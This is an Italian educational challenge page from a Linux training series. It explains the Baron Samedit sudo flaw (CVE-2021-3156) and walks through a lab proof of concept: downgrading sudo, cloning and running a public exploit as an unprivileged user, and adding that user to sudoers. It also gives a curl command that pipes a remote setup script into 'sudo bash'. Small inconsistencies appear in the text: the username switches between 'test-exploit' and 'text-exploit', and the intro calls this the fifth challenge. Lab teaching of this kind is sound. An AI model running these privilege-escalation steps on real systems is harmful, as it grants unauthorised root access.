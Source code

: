 ```yaml
---
title: "Challenge 4"
summary: Benvenuto nella quarta challenge, difficoltà 🤕🤕🤕🤕. In questa challenge prenderai i panni di un _hacker_.
date: 2021-03-27
tags: ["challenge-series"]
---
```


[cve-2021-3156]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156
[qualys]: https://en.wikipedia.org/wiki/Qualys
[qualys-blog-post]: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit?_ga=2.226100442.1385623629.1616771039-1815361758.1616771039
[challenge-4-setup]: ./assets/challenge-4-setup.sh

# Challenge 4 - Privilage escalation

Benvenuto nella quinta challenge, difficoltà 🤕🤕🤕🤕.
In questa challenge prenderai i panni di un _hacker_.

**Questa challenge e' a solo scopo educativo, pertanto l'autore della challenge non si assume nessuna responsabilità per l'uso che i partecipanti faranno di questa conoscenza.**

## In Questa Challenge

- Utilizzo di funzioni avanzate della shell.
- Compilare un programma da riga di comando.
- Exploitare la vulnerabilità di sudo.
- Effettuare una privilage escalation.
- Proteggersi dall'attacco.

## Introduzione

La vulnerabilità nota con il nome di _Baron Samedit_ documentata in [CVE-2021-3156][cve-2021-3156], e' una delle scoperte più scioccanti dell'ultimo decennio. _Sudo_ e' un programma preinstallato nella maggior parte dei sistemi operativi GNU/Linux, e' utilizzato per eseguire programmi da riga di comando con _permessi di root_ non essendo root. Purtroppo i programmi non sono perfetti e possono essere exploitati attraverso delle vulnerabilità. Queste vulnerabilità possono essere più o meno note al pubblico. Quando una vulnerabilità viene pubblicata gli sviluppatori si mobilitano per correggere il problema rilasciando una nuova versione.
La vulnerabilità _Baron Sameid_ e' stata presente per più di **10 anni** introdotta con un aggiornamento in _luglio 2011_, secondo il team di ricercatori della [Qualys][qualys] coloro che hanno trovato la vulnerabilità.

Exploitando la vulnerabilità permette di ottenere i _permessi di root_ completi anche non facendo parte del _gruppo sudo_. Questo avviene per un bug con il comando `sudoedit -s`. Per maggiori informazioni riguardo alla vulnerabilità visita il [blog post][qualys-blog-post] sul sito di Qualys.

## Proof Of Concept

Per testare questo exploit assicurati di essere in un ambiente sicuro. Guarda la [Challenge 1][challenge-1] per sapere come installare velocemente una macchina virtuale.

Prima di tutto bisogna installare una versione di _sudo_ che contenga il bug.
Fai il downgrade di _sudo_

``` shell
sudo apt install sudo=1.8.31-1ubuntu1
```

E' possibile che la macchina non abbia i programmi necessari per compilare il codice. Installali

``` shell
sudo apt install build-essential
```

Avendo già i _permessi di root_ come utente attuale non ha senso eseguire l'exploit ora. Crea un nuovo utente

``` shell
sudo adduser test-exploit
```

> Inserisci una password e premi `invio` al resto dei i prompt.

Accedi come l'utente `test-exploit`

``` shell
su test-exploit
```

Verifica che il nuovo utente non sia uno _sudoer_

``` shell
sudo -v
```

> L'output dovrebbe essere: _Sorry, user test-exploit may not run sudo on ubuntu-204_.

Verifica che non abbia privilegi di root

``` shell
touch /etc/test
```

> L'output dovrebbe essere: _touch: cannot touch '/etc/test': Permission denied_.

Su GitHub esistono diverse implementazioni dell'exploit. Guardare il codice sorgente di queste implementazioni e' un ottimo modo per imparare.
Scarica l'exploit

``` shell
git clone https://github.com/blasty/CVE-2021-3156 
```

Compila il programma

``` shell
cd CVE-2021-3156/
make
```

Esegui l'exploit

``` shell
./sudo-hax-me-a-sandwich 1
```

Verifica che tua abbia i _permessi di root_ creando un file in `/etc`

``` shell
touch /etc/test
ls -l /etc/t*
```

Aggiungi l'utente `test-exploit` tra i _sudoers_

``` shell
adduser text-exploit sudo
```

Da ora in poi l'utente `text-exploit` fa parte del gruppo `sudo` quindi potrà eseguire comandi con _permessi di root_.

Per provare che le modifiche siano avvenute veramente e che non e' stato un trucco, riavvia la macchina, accedi come utente `text-exploit` ed inizia ad usare i nuovi super poteri.

## Riassunto

- Cos'è la vulnerabilità _Baron Samedit_.
- Come fare il downgrade di un pacchetto.
- Come creare un nuovo utente.
- Come compilare un programma.
- Come ottenere i _permessi di root_ attraverso un exploit.
- Come aggiungere un'utente al gruppo _sudo_.

## Challenge

Dato l'accesso ad una macchina come utente `challenge-4` con  solo due permessi, l'esecuzione del comando `exit` e dell'editor `vi`. Attraverso una _privilage escalation_ crea il file `/etc/hacked.txt` con all'interno il testo `Sei stato hackerato`.

Prima di iniziare la challenge prepara la macchina. Crea un nuovo utente  `challenge-4` ed esegui [questo script][challenge-4-setup] con _permessi di root_. Lo script configura adeguatamente l'utente `challenge-4` per la challenge e prende in input due argomenti,l'utente e l'hostname.

``` shell
sudo adduser challenge-4
curl https://gitlab.com/pdpfsug/mkspace/challenges/-/raw/master/challenge-4/assets/challenge-4-setup.sh | sudo bash -s challenge-4 challenge-ubuntu
su -l challenge-4
```

- `curl https://gitlab.com/pdpfsug...` serve a scaricare lo script.
- `sudo bash -s challenge-4 challenge-ubuntu` serve ad eseguire lo script.
  - `challenge-4` e' l'utente che hai creato.
  - `challenge-ubuntu` e' il hostname della tua macchina. Per visualizzare l'hostname della tua macchina usa il comando `hostname`. 

> Buona fortuna.
